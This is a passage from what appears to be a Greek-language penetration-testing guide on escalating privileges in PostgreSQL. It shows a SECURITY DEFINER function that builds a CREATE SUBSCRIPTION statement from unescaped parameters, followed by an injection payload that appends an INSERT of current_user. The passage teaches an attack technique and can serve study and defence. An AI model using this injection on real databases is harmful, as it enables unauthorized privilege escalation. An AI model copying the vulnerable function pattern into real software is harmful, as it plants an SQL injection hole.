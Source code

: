 <pre class="language-sql"><code class="lang-sql">CREATE OR REPLACE FUNCTION public.create_subscription(IN subscription_name text,IN host_ip text,IN portnum text,IN password text,IN username text,IN db_name text,IN publisher_name text)
RETURNS text
LANGUAGE 'plpgsql'
<strong>    VOLATILE SECURITY DEFINER
</strong>    PARALLEL UNSAFE
COST 100

AS $BODY$
DECLARE
persist_dblink_extension boolean;
BEGIN
persist_dblink_extension := create_dblink_extension();
PERFORM dblink_connect(format('dbname=%s', db_name));
PERFORM dblink_exec(format('CREATE SUBSCRIPTION %s CONNECTION ''host=%s port=%s password=%s user=%s dbname=%s sslmode=require'' PUBLICATION %s',
subscription_name, host_ip, portNum, password, username, db_name, publisher_name));
PERFORM dblink_disconnect();
…
</code></pre>

Όπως [**εξηγείται στα έγγραφα**](https://www.postgresql.org/docs/current/sql-createfunction.html) μια συνάρτηση με **SECURITY DEFINER εκτελείται** με τα προνόμια του **χρήστη που την κατέχει**. Επομένως, αν η συνάρτηση είναι **ευάλωτη στην εισχώρηση SQL** ή εκτελεί κάποιες **προνομιούχες ενέργειες με παραμέτρους που ελέγχονται από τον εισβολέα**, θα μπορούσε να καταχραστεί για να **αναβαθμίσει τα προνόμια μέσα στο postgres**.

Στη γραμμή 4 του προηγούμενου κώδικα μπορείτε να δείτε ότι η συνάρτηση έχει τη **σημαία SECURITY DEFINER**.
```sql
CREATE SUBSCRIPTION test3 CONNECTION 'host=127.0.0.1 port=5432 password=a
user=ibm dbname=ibmclouddb sslmode=require' PUBLICATION test2_publication
WITH (create_slot = false); INSERT INTO public.test3(data) VALUES(current_user);
```
Και στη συνέχεια **εκτελέστε εντολές**:

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

